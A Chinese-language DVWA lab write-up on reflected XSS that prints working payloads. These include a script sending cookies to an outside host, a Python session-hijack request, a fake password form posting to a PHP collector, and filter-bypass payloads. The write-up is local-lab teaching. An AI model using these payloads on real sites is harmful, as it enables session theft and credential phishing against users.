

[TOC]

# 反射型XSS

反射型XSS是最常用的，使用最广的一种方式。通过给受害者发送有恶意脚本代码参数的URL，当URL被打开时，特有的恶意代码参数被HTML解析、执行。


## low

低安全级别攻击

页面


源代码


显然，源程序中没有对用户输入进行任何过滤，直接进行解析显示，因此在输入框中输入以下代码，请求的链接为`http://dvwa.localhost/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22hacked%22%29%3B%3C%2Fscript%3E#`，这是一个get型请求，可以看到用户输入附加在url的name后，反射回的页面会执行下面的代码。

```html
<script>alert("hacked");</script>
```


链接为

```
http://dvwa.localhost/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22hack%22%29%3B%3C%2Fscript%3E#
```


### cookie劫持

在输入框中输入：

```javascript
<script>
    var img = document.createElement("img");
    img.src = "http://csrf.localhost/log?" + escape(document.cookie);//img的src不重要
    alert(document.cookie);
</script>
```

这段代码在页面中插入了一张看不见的图片，同时把document.cookie作为参数发送给了远程服务器。

实际上`http://csrf.localhost/log?`并不一定要存在，`http://csrf.localhost`要存在(我是在本机运行的网站,配置过程在CSRF攻击中详细说明)，这个请求会在日志 `/var/log/apache2`中留下记录


也就是完成了一个简单的窃取用户Cookie，接下来可以利用窃取的cookie为所欲为，免密登陆用户账号，获取用户信息，例如使用python：

```python
import requests

header = {
    'Host': 'dvwa.localhost',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'X-Requested-With': 'XMLHttpRequest',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,la;q=0.6',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://dvwa.localhost',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36',
    'Connection': 'keep-alive',
    'Cookie': 'PHPSESSID=3oktmgk7tr1cuu6bddq8cae632; security=low',	//获取的用户cookie

}


url = "http://dvwa.localhost/index.php";


response = requests.post(url, headers = header)
print(response.text)
print(response.status_code)
```


### XSS钓鱼

大多数网站中“修改用户密码”的功能中，在提交新密码前，会要求用户输入旧密码，但这个旧密码一般是攻击者不知道的。为了获取密码，攻击者可以将XSS与“钓鱼”相结合。

思路其实很简单，利用js在当前页面上“伪造一个登陆框”，当用户在登录框中输入用户名与密码后，其密码将会被发送到攻击者的服务器上。

感觉更适合存储型XSS。

伪造输入框的内容

```javascript
<script >

    var parent=document.getElementById("main_body");
    var para=document.createElement("p");
    
    var node=document.createTextNode("原密码:");
    para.appendChild(node);
    parent.appendChild(para);
    
    var form0 = document.createElement("form");   
    form0.method = 'post';
    form0.action = 'http://csrf.localhost/hack.php';		//提交到攻击页面
    parent.appendChild(form0);
    
    var newElement = document.createElement("input");
    newElement.name = "oldpassword";
    newElement.type = "text";
    form0.appendChild(newElement);

   var newElement = document.createElement("input");

   newElement.type = "submit";
   form0.appendChild(newElement);


</script>
```

用户输入以上代码（一般是诱使用户点击name字段为上述代码的链接，实际会伪装这个链接）


输入后，xss反射，浏览器执行上述代码，添加一个form表单


钓鱼的demo攻击代码已经被注入，用户输入密码，点击提交，会提交到`hack.php`，并将密码保存到攻击者的服务器

```php
<?php

      $user=$_POST["oldpassword"]; //获取用户名

      $passtxt=fopen("passtxt.txt","a");  //打开文件
      fwrite($passtxt,"User:".$user."\n");  //写入文件
      fclose($passtxt);
      header("http://dvwa.localhost/vulnerabilities/xss_r/?name=#");  //转跳到正常页面 
     ?>
```


## medium

中级的代码对输入中的<script>替换成了空字符，但依然可以进行攻击


* 双写<script>

```javascript
<sc<script>ript>alert("hack")</script>
```

* 大小写混写

```javascript
<ScrIpt>alert("hack")</scRipT>
```


## high

源代码中使用正则表达式对输入进行过滤



使得双写、大小写混写不再有效，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```

```

